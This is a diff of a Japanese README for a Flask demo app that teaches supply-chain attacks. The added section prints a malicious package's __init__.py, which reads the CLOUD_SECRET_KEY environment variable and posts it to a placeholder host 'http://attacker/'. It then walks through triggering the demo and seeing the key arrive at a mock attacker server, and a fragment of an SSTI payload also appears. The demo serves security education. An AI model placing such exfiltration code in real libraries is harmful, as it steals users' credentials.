

Before and after one commit to phrude/flask-demoapp, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
fix README
Signed-off-by: Hi120ki <12624257+hi120ki@users.noreply.github.com>

````diff
--- a/README.md
+++ b/README.md
@@ -95,9 +93,43 @@ curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__global
 
 ### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃
 
+このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。
+
+```python
+try:
+    import os
+    import requests
+
+    # Get an environment variable
+    secret = os.getenv("CLOUD_SECRET_KEY")
+    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
+except:
+    pass
+```
+
+ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。
+
+ライブラリstealer_packageで提供されている機能を使う処理を実行します。
+
+以下のようなcurlコマンドの実行
+
 ```
 curl http://localhost:8081/stealer
 ```
+
+もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。
+
+画面に `Stealer demo is executed`と表示されます。
+
+このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。
+
+攻撃者の模擬サーバー <http://localhost:8082> を確認すると
+
+```
+[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
+```
+
+と秘密の鍵が攻撃者の手に渡っていることが確認できます。
 
 ### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃
 
````
Also changed, not shown: other parts of README.md (+8 -10 lines).
